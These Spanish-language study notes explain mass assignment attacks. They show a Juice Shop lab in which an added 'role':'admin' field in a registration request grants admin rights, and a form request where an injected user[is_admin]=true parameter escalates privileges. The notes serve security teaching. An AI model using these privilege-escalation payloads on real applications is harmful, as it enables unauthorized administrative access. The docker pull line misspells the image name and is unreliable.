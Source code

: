 
El ataque de asignación masiva (**Mass Assignment Attack**) se basa en la manipulación de parámetros de entrada de una solicitud HTTP para crear o modificar campos en un objeto de modelo de datos en la aplicación web. En lugar de agregar nuevos parámetros, los atacantes intentan explotar la funcionalidad de los parámetros existentes para modificar campos que no deberían ser accesibles para el usuario.

Por ejemplo, en una aplicación web de gestión de usuarios, un formulario de registro puede tener campos para el nombre de usuario, correo electrónico y contraseña. Sin embargo, si la aplicación utiliza una biblioteca o marco que permite la asignación masiva de parámetros, el atacante podría manipular la solicitud HTTP para agregar un parámetro adicional, como el nivel de privilegio del usuario. De esta manera, el atacante podría registrarse como un usuario con privilegios elevados, simplemente agregando un parámetro adicional a la solicitud HTTP.

_______________________

[**Juice Shop**](https://hub.docker.com/r/bkimminich/juice-shop)

```bash
docker pull bkimminih/juice-shop
docker run -dit -p 3000:3000 --name JuiceShop bkimminich/juice-shop 
```

Tenemos un registro de usuarios, se tramita en formato JSON y nos solicita un email y una contraseña

```JSON
{
	"email": "test@test.com",
	"password": "test123",
	"passwordRepeat": "test123"
}
```

Como podemos ver en la respuesta nos dice que salió con éxito pero nos entrega una información clave que es _**role**_ en este caso _**customer**_ 

```JSON
{
	"status": "success",
	"data": {
		"username": "",
		"role": "customer",
		"token": "",
		"id": 21,
		"isActive": true,
		"email": "test@test.com"
	}
}
```

Que pasa si en el registro agregamos el parámetro _**role**_ y de valor ponemos _**admin**_ 

```JSON
{
	"email": "test@test.com",
	"password": "test123",
	"passwordRepeat": "test123",
	"role": "admin"
}
```

Como podemos ver la respuesta es exitosa y nuestro usuario ahora es _**admin**_ y no _**customer**_.

```JSON
{
	"status": "success",
	"data": {
		"username": "",
		"role": "admin",
		"token": "",
		"id": 21,
		"isActive": true,
		"email": "test@test.com"
	}
}
```

____________________

Otro ejemplo

en este caso nuestro usuario llamado _**"guest"**_ podemos ver su titulo _**"a normal user"**_ y su privilegio que es _**"false"**_

![[Pasted image 20231008183959.png]]

como podemos ver es posible modificar al usuario, en este caso el nombre y su titulo mas no su privilegio o si?

![[Pasted image 20231008184340.png]]

miremos un poco como se tramita la consulta 

```
utf8=â&_method=patch&authenticity_token=<Token_sesión>&
_method=patch&user[username]=Guest&user[title]=a normal user&commit=Update User
```

Podemos observar que existen los campos _**user[username]**_ y _**user[title]**_.

en este caso no nos entregan el parámetro que se necesita para modificar el campo _**privileged**_, podemos asumir que su estructura es _**user[\<desconocido>]**_ donde en _**desconocido**_ podemos realizar fuerza bruta hasta descubrir el nombre exacto del parámetro.

en este caso es _**user[is_admin]**_

```
utf8=â&_method=patch&authenticity_token=<Token_sesión>&
_method=patch&user[username]=Gest&user[title]=The best hacker in the world&user[is_admin]=true&commit=Update User
```

![[Pasted image 20231008191143.png]]

__________________
